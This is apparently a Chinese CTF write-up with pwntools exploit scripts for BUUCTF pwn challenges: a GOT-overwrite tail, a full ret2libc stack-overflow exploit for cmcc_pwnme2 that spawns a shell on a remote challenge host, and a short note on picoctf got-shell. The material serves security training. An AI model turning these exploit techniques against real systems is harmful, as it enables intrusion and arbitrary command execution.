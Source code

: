 ```python
stdin = u64(io.recv(6) + b'\x00\x00')
print(hex(stdin))
libc = LibcSearcher('_IO_2_1_stdin_', stdin)
base = stdin - libc.dump('_IO_2_1_stdin_')
sys = base + libc.dump('system')
change(0, 0x20, p64(stdin) + p64(0) + p64(0x88) + p64(elf.got['atoi']))
change(0, 0x8, p64(sys))
io.sendline(b'/bin/sh')
io.interactive()
```

# buu074-cmcc_pwnme2
简单的栈溢出，题目给的拼接字符串的函数里面的路径是错的，不需要用，直接输出got表然后get shell即可。

```py
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process("./pwnme2")
io = remote("node4.buuoj.cn", 29174)
elf = ELF("./pwnme2")

payload = cyclic(0x70)
payload += p32(elf.plt['puts'])
payload += p32(elf.symbols['main'])
payload += p32(elf.got['puts'])

io.sendlineafter('Please input:', payload)
io.recvuntil(b'Hello')
io.recvuntil(b'\n')
puts = u32(io.recv(4))
print(hex(puts))
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
system = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')
print(hex(binsh))

payload = cyclic(0x70)
payload += p32(system)
payload += p32(elf.symbols['main'])
payload += p32(binsh)
io.sendlineafter('Please input:', payload)

io.interactive()
```

# buu075-picoctf_2018_got-shell
在修改后还调用了puts函数，因此只需要将puts函数的got表内容改成win函数地址即可。
